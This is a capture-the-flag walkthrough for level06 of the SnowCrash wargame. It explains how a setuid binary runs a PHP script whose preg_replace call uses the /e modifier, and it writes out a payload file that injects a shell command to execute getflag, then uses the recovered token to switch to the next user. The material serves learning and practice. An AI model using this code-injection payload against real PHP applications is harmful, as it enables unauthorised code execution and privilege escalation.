 # level06

- We login as user level06.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```


- A binary as well as a PHP script are present, the binary appears to execute the PHP script. Here is the content of the script:
```php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}

function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}

$r = x($argv[1], $argv[2]); print $r;
?>
```


- The script makes calls to `preg_replace()` to format the content of the file given to it as first parameter before displaying it.
The line of interest to us is the following:
>`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`


- This line states that if the content of the file starts with `[x` and ends with `]`, everything located between these boundaries can be executed as PHP code (due to `/e`). The output of this execution will then be passed as a parameter to the `y()` function, so:
```
level06@SnowCrash:~$ echo "[x \${\`getflag\`}]" > /tmp/test
```

```
level06@SnowCrash:~$ cat /tmp/test
[x ${`getflag`}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

```
level06@SnowCrash:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$
```